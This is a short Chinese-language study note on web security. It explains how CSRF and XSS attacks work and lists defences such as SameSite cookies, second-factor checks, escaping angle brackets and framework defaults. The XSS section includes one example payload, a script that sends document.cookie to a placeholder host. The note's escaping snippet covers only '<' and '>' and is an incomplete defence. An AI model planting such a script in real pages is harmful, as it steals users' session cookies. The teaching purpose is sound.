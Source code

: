 # Safe
## CSRF
- Cross-site request forgery 跨站请求伪造
- CSRF 的过程
  - 用户登录了 `a.com` ，有了 cookie
  - 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
  - `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了
- CSRF 的预防
  - 严格的跨域请求限制
  - 为 cookie 设置 `SameSite` 不随跨域请求被发送
    - `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
    - SameSite=Strict Cookie 不能随着跳转链接跨站发送
    - SameSite=Lax 允许 GET/HEAD 等安全方法，但禁止 POST 跨站发送
  - 关键接口使用短信验证码等双重验证
## XSS
- Cross Site Scripting 跨站脚本攻击
- Xss 过程
  - 用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。
  - 该内容再显示时，这些代码也将会被执行，形成了攻击效果。
  ```html
  <!-- 例如用户提交的内容中有： -->
  <script>
      var img = document.createElement('img')
      img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
  </script>
  ```
- xss 预防：替换特殊字符（最简单的解决方式）
  ```js
  const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  ```
- 第三方工具

<!--@include: @/front-end\Plugin\index.md{94,96}-->

- 现代框架默认会屏蔽 XSS 攻击，除非自己手动开启
  - Vue `v-html`
  - React `dangerouslySetInnerHTML`
